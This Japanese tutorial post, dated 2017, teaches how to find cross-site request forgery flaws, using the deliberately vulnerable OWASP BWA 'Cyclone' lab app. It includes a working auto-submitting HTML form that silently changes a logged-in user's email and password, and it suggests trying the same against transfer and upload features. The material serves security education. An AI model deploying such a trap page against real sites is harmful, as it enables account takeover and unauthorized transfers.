 ```yaml
---
description: 'Feb 6, 2017'
---
```


# 脆弱性を見つけよう クロスサイトリクエストフォージェリ編

第6回目はクロスサイトリクエストフォージェリの脆弱性を取り上げます。

クロスサイトリクエストフォージェリ（CSRF）とは、サイト上の処理をサーバー側で受け付ける際に、サイト利用者からの正規のリクエストであるか検証していなかった場合、攻撃者に誘導された利用者が意図しない処理を実行させられてしまう問題です。

## 検出方法

CSRFの対象になる機能は、ブログへのコメント投稿やショッピングサイトでの決済、アカウント情報の更新など、Webアプリケーションのリソースに変化を与える機能です。ここではサイト利用者にとって重要になる、ログイン後の機能を対象とします。

CSRFの脆弱性を見つけるには以下の手順でサイトの挙動を確認します。

1. ログイン後にリソースに変化を与える機能があるか
2. 機能の実行時に次のような検証がないか、または検証を回避できるか
   * リクエストに付与された推測困難なトークンによる検証
   * リクエストのRefererヘッダの値による検証
   * パスワードの再入力
3. 罠サイトからのリクエストにより処理を強制できるか

今回はOWASP BWAの「Cyclone」という架空の送金サービスを対象に調査を行ないます。まずはアカウントを作成してログインしてみましょう。

![&#x56F3;1. &#x67B6;&#x7A7A;&#x306E;&#x9001;&#x91D1;&#x30B5;&#x30FC;&#x30D3;&#x30B9;&#x300C;Cyclone&#x300D;](../.gitbook/assets/e6_figure1.png)

Cycloneにログインするとアカウント情報の更新機能を利用できます。更新時のリクエストにはCSRF対策用のトークンらしき値が付与されています。

![&#x56F3;2. &#x30A2;&#x30AB;&#x30A6;&#x30F3;&#x30C8;&#x60C5;&#x5831;&#x3092;&#x66F4;&#x65B0;&#x3059;&#x308B;&#x969B;&#x306E;&#x30EA;&#x30AF;&#x30A8;&#x30B9;&#x30C8;](../.gitbook/assets/e6_figure2.png)

このトークンはアクセスするたびに変化します。規則性が見られないので生成される値の推測もできません。しかし、トークンの一部を書き換えたり消したり、パラメータごと削除しても処理が完了しました。どうやらサーバー側でトークンを検証していないようです。Refererヘッダを送らなくても処理が完了したので、この機能にはCSRFの脆弱性がありそうです。

## 実証

CSRFにより処理を強制きることを、罠サイトを作って確認しましょう。以下のようなHTMLのサイトに利用者をアクセスさせることで、アカウント情報の更新リクエストを強制できます。

{% code title="csrf.html" %}
```markup
<form action="http://192.168.161.128/cyclone/users/101" method="POST">
    <input type="hidden" name="_method" value="put" />
    <input type="hidden" name="user[name]" value="hacker" />
    <input type="hidden" name="user[email]" value="hacker@example.com" />
    <input type="hidden" name="user[password]" value="hack123" />
    <input type="hidden" name="user[password_confirmation]" value="hack123" />
    <input type="hidden" name="user[profile_statement]" value="Hacked!" />
</form>
<script>document.forms[0].submit()</script>
```
{% endcode %}

実際の攻撃ではこのようなHTMLを攻撃者のWebサーバーに配置して、ログイン済みの利用者にアクセスさせます。攻撃を再現するために、このHTMLファイルをCycloneにログインしているブラウザで読み込みます。

![&#x56F3;3. &#x30D5;&#x30A1;&#x30A4;&#x30EB;&#x3092;&#x8AAD;&#x307F;&#x8FBC;&#x3080;&#x3068;&#x66F4;&#x65B0;&#x30EA;&#x30AF;&#x30A8;&#x30B9;&#x30C8;&#x304C;&#x9001;&#x4FE1;&#x3055;&#x308C;&#x308B;](../.gitbook/assets/e6_figure3.png)

HTMLファイルを読み込むと自動的にリクエストが送信されました。アカウント情報も更新されると思います。攻撃者の思い通りにパスワードが更新されるので、アカウントの乗っ取りに発展するかもしれません。重要情報の更新機能にCSRFの脆弱性があると被害の影響は大きくなります。



Cycloneには他にもCSRFの対象になる機能があります。もし送金機能にCSRFの脆弱性があれば、攻撃者の口座へ勝手に送金させる、なんてこともできそうです。脆弱性がないか確認してみてください。また、ファイルをアップロードする機能もあります。CSRFでファイルをアップロードさせたい場合は、[XMLHttpRequest](https://developer.mozilla.org/ja/docs/Web/API/XMLHttpRequest)を用いてリクエストを送信するような罠サイトを作ってみてください。

次回も一つ脆弱性を取り上げ、その見つけ方を紹介します。

